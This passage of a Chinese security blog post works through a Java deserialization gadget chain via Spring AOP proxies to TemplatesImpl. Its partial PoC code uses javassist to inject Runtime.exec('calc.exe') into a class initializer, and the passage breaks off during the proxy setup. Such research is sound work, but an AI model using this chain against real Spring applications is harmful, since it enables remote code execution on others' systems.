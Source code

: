 ```
public interface Advisor {
    Advice EMPTY_ADVICE = new Advice() {
    };
    Advice getAdvice();
    boolean isPerInstance();
}
```

随便找个干净的实现类就好，比如 `DefaultIntroductionAdvisor`，直接返回 advice

刚才我们说了要让 chain，在这里也就是 advice，要为 `AspectJAroundAdvice`，这个类已经实现了 `MethodInterceptor` 接口，所以我们再用 `JdkDynamicAopProxy` 给 `AspectJAroundAdvice` 实现 Advice 接口就好了

那回过头来看看 advisor 的值是否能控制

![image-20250416172201575](https://bu.dusays.com/2025/05/11/68204021222f2.png)

这里 `config` 的值就是 `AdvisedSupport` ，跟进其 `getAdvisors()` 方法

```
public final Advisor[] getAdvisors() {
    return (Advisor[])this.advisors.toArray(new Advisor[0]);
}
```

就是转换成数组返回，可以在 `AdvisedSupport` 的 `addAdvisor` 方法中将 advisors 加入到数组中，是可控的

综上的话，就知道写poc的思路了

1. 构造恶意的 `AspectJAroundAdvice`
2. 内层 `JdkDynamicAopProxy` 动态代理使内层 advisor 实现两个接口
3. 外层 `JdkDynamicAopProxy` 动态代理触发其 invoke 方法，然后调用 `ReflectiveMethodInvocation#proceed` ，最终实现 `TemplatesImpl#newTransformer`

## poc

调用无参方法的话，还是用 TemplatesImpl 加载字节码好了，用 javassist 来构造字节码

```
		ClassPool classpool = ClassPool.getDefault();
        classpool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = classpool.makeClass(&#34;poc&#34;);
        String cmd = &#34;java.lang.Runtime.getRuntime().exec(\&#34;calc.exe\&#34;);&#34;;
        ctClass.setSuperclass(classpool.get(AbstractTranslet.class.getName()));
        ctClass.makeClassInitializer().insertBefore(cmd);
        byte[] bytecode = ctClass.toBytecode();
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, &#34;_bytecodes&#34;, new byte[][]{bytecode});
        setFieldValue(templates, &#34;_name&#34;, &#34;6s6&#34;);
```

套第一层 JdkDynamicAopProxy 动态代理

```
    public static Object getProxy1(Object obj, Class[] clazzs) throws Exception {
    	//设置代理对象
        AdvisedSupport advisedSupport = new AdvisedSupport();
        advisedSupport.setTarget(obj);
        
        Constructor constructor = Class.forName(&#34;org.springframework.aop.framework.JdkDynamicAopProxy&#34;).getConstructor(AdvisedSupport.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);
        return java.lang.reflect.Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), clazzs, handler);
    }
```
